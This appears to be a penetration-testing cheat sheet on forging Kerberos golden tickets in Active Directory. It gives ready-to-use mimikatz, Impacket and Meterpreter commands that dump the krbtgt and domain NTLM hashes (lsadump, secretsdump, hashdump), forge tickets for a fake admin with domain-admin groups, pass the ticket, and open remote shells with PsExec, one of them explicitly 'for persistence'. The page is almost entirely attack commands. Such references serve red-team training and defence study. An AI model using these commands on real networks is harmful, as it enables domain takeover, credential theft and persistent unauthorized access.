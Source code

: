 ```
mimikatz # lsadump::lsa [/patch | /inject] /name:krbtgt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /ptt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /aes256:<aes256_hash> /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt

mimikatz # misc::cmd

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

### 1.2 - Impacket

Get the Domain SID.

`$ lookupsid <domain_name>/<username>:<password>@<IP>`

Then dump the hashes.

`$ secretsdump -just-dc-ntlm <domain_name>/<username>:<password>@<IP>`

Convert it to golden ticket. Exclude the RID from the last 3 digits.

`$ ticketer -nthashes <ntlm_hash> -domain-sid <sid_user> -domain <domain_name> <username_to_impersonate>`

### 1.3 - Metasploit

#### 1.3.1 - Meterpreter

- **Dump the credentials**

```
meterpreter > hashdump

meterpreter > run post/windows/gather/smart_hashdump
```

- **Create a golden ticket for persistence**

`meterpreter > golden_ticket_create -u <username> -d <domain_name> -k <NTLM_hash> -s <SID> -t /path/to/export/golden_ticket.kirbi`

- List kerberos tickets.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Pretty sure when you ran the golden_ticket module it should've stored somewhere on `/home/$USER/.msf4/loot/` or `/root/.msf4/loot/`

`meterpreter > kerberos_ticket_use <golden_ticket>`
